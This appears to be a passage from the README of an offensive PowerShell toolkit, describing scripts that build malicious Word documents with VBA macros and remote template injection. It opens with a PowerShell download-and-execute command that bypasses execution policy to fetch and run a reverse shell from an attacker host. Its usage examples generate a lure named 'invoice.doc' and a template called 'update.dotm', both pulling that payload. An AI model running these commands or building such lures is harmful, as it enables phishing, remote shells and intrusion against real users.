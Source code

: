 ```powershell
powershell -nop -ex bypass -wi h -c {iex ((New-Object System.Net.WebClient).DownloadString('https(s)://<attacker_ip>/revshell'))}
```

---
### officemacros 

This directory contains scripts intended for Microsoft Office-based payloads in the form of VBA macros and remote template injection.  

---
#### ``Get-MacroInfestedWordDoc.ps1`` 

```powershell
# Synopsis:
# Generate Macro Infested Word 97-2003 Documents (.doc)
# 
# Parameters:
#   -DocumentName   -->  Output name of the malicious Word Document (.doc)
#   -PayloadURL     -->  URL of the hosted payload that the macro downloads and executes
#   -MacroContents  -->  Advanced: User inputs custom macro instead of the generated one
#   -Help           -->  Return Get-Help information

# Example:
Get-MacroInfestedWordDoc -DocumentName invoice.doc -PayloadURL http://<attacker_ip>/revshell
```

---
#### ``Get-TemplateInjectedPayload.ps1``

```powershell
# Synopsis:
# Generate Macro Infested Word Template (.dotm) an Inject into a Word Document (.docx)
# 
# Parameters:
#   -TemplateURL    -->  URL where the malicious Word Template (.dotm) will be hosted
#   -PayloadURL     -->  URL of the hosted payload that the macro downloads and executes
#   -Document       -->  Advanced: Target templated Word Document (.docx) to inject
#   -MacroContents  -->  Advanced: User inputs custom macro instead of the generated one
#   -Help           -->  Return Get-Help information

# Example:
Get-TemplateInjectedPayload -TemplateURL http://<attacker_ip>/office/update.dotm -PayloadURL http://<attacker_ip>/revshell
```

---
### privesc

This directory contains scripts intended for privilege escalation or enumeration for privilege escalation vectors.  

---